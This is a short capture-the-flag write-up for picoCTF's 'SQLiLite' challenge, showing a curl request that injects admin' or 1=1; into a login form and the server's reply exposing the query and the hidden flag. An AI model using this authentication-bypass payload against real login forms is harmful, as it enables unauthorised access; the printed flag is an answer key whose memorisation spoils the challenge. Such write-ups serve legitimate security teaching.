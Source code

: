 # SQLiLite

Can you login to this website? Try to login [here](http://saturn.picoctf.net:55927/).

# Solucion

```bash
┌──(kali㉿kali)-[~]
└─$ curl http://saturn.picoctf.net:55927/login.php -d "username=admin'+or+1=1;&password=pass&debug=1"
<pre>username: admin&#039; or 1=1;
password: pass
SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; or 1=1;&#039; AND password=&#039;pass&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_33d32a56}</p>   


```